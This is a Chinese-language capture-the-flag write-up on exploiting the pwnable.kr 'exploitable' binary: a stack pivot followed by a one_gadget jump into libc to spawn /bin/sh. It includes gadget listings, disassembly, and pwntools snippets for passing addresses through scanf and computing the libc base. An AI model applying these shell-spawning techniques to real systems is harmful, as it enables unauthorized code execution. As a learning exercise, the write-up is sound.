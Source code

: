 # pwnable.kr "exploitable" writeup

这道题和 bctf2017的 babyuse 利用方法一样，都是能跳转到任意地址，但是参数不可控。这时候就要用m4gic system ROP了，跳转到 libc 里面的do_system函数中间的地址。用 one_gadget 来寻找可以跳转的 gadget。

但是直接跳转的话会发现所有的 gadget 都不可用

```shell
➜  exploitable one_gadget libc.so.6
0x3a7f9	execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the address of `rw-p` area of libc
  [esp+0x34] == NULL

0x5ef45	execl("/bin/sh", eax)
constraints:
  esi is the address of `rw-p` area of libc
  eax == NULL

0x5ef46	execl("/bin/sh", [esp])
constraints:
  esi is the address of `rw-p` area of libc
  [esp] == NULL
```

调试发现是不满足 gadget 的 constraints， 于是考虑先跳转到之前的某个位置，迁移一下栈

```assembly
.text:08048567                 lea     eax, [ebp-10h] //跳转到此处
.text:0804856A                 push    eax
.text:0804856B                 push    offset format_string
.text:08048570                 call    ___isoc99_scanf
.text:08048575                 add     esp, 10h
.text:08048578                 mov     eax, [ebp-10h]
.text:0804857B                 sub     esp, 0Ch
.text:0804857E                 push    0DEADBEEFh
.text:08048583                 call    eax
```

迁移栈后 用上面的第一个 gadget，就能成功 getshell 了。但是调试的时候发现跳转到 gadget 起始地址的时候，并没有满足 constraints， [esp+0x34]不是 NULL，但是[esp+0x38]是 NULL，但是尽管如此，还是能够正确执行，所以第0个参数是什么是无关紧要的，按道理应该是execve 执行的程序的程序名，但是改成其他的也不影响程序的执行。但是第一个参数不是 NULL 的话就会出错。

```
➜  test ./a.out
aaaaaaaaaaaaaaaaaaaaaqwerasdfsadfsadfsadfasd/bin/sh@#(*@#&((&))): 0: Can't open asdf
```

所以这应该是 one_gadget 一个小小的不足。



# 坑点

1. 如果要跳转到 libc 里面，那么`scanf("%d", &eip)`的 eip 是大于0x7fffffff的值，这时候不能直接传一个正数进去，要转化成负数传进去，否则 scanf 由于溢出会把 eip 填0

   ```python
   if eip > 0x7fffffff:
       p.sendline("-" + str(2**32 - eip))
   else:
       p.sendline(str(eip))
   ```

2. 程序会打印 stdout 的地址，但是根据这个地址计算 libc 的基地址的时候不能这样写

   ```python
   libc.address = _stdout - libc.symbols['stdout']
   ```

   而应该这样写

   ```python
   libc.address = _stdout - libc.symbols['_IO_2_1_stdout_']
   ```

   因为 gdb 调试的时候发现实际的符号名并不是 `stdout`，而是`_IO_2_1_stdout_ `。至于 stdout 这个符号到底是啥，并不知道。

   ​